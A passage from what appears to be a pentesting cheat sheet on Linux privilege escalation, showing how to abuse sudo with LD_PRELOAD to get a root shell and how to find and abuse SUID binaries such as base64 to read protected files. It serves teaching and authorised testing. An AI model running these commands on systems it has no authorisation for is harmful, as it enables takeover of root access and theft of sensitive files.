 ***

* Then compile into a shared library

{% code overflow="wrap" lineNumbers="true" %}
```bash
gcc shell.c -fPIC -shared -o shell.so -nostartfiles
```
{% endcode %}

{% hint style="info" %}
The extension _.so_ represents a shared object
{% endhint %}

***

* Run a sudo command specifying the _LD\_PRELOAD_ option with the script

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>sudo LD_PRELOAD=/home/user/ldpreload/shell.so $command
</strong><strong>#This will prompt a root shell
</strong></code></pre>

{% hint style="info" %}
_$command_ is any command with sudo permissions found using `sudo -l`
{% endhint %}

## <mark style="color:orange;">Abusing SUID/SGID permissions on reading binaries</mark>

* Verify executables with special permissions

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash"><strong>find / -type f -perm -04000 -ls 2>/dev/null | grep bin
</strong>#Example results
<strong>1111  1  -rwsr-xr-x  1  root  root  1111  Feb  10  2030  /usr/bin/base64
</strong></code></pre>

{% hint style="info" %}
`base64` is used as an example, can be any other executable with data visualization properties, such as `nano`,`cat`, `vim`, `nvim`, etc...
{% endhint %}

***

* Check binary SUID abuse on [_GTFOBins_](../tools-and-utilities.md#gtfobins)

{% code overflow="wrap" lineNumbers="true" %}
```bash
LFILE=file_to_read
base64 "$LFILE" | base64 --decode
```
{% endcode %}

***

* Abuse privileges to read important files and copy its content locally

